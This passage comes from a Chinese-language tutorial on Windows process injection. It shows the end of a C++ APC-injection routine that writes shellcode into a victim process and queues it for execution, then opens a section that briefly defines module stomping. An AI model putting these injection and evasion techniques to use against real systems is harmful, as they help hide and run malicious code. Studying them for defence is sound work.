 ```c++
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, shellcode, shellcodeSize, NULL);
    QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
    ResumeThread(threadHandle);

    // 等待目标线程执行完毕
    WaitForSingleObject(threadHandle, INFINITE);

    // 释放资源
    CloseHandle(threadHandle);
    CloseHandle(victimProcess);

    return 0;
}

```



## Module  Stomping

模块踩踏是一种利用加载正常合法的 DLL 的技术，然后通过覆盖该 DLL 的部分内存来加载并执行 Shellcode 的方法。



